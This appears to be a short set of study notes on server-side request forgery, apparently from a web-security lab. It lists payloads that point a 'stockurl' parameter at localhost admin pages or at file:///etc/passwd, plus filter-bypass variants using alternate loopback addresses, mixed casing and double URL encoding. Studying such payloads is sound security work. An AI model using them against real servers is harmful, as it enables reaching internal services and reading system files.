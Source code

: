 - make an internal request to see if you can reach internal services and gather information about the server.

#### some payloads
```python
stockurl=http://localhost/admin
stockurl=127.0.0.1/admin
file://<directory and file>
	ex. file:///etc/passwd



```

#### Bypass filter:
```python
# different loopback address
stockURL=https://localhost/admin
stockURL=https://127.0.0.1/admin
stockURL=https://127.1/admin

# try different protocols
stockURL=https://localhost/admin
stockURL=http://localhost/admin

# different path casing
stockURL=https://LOcaLhOst/aDMiN

# different encoding
stockURL=https://LOcaLhOst/%25%36%31DMiN


```



























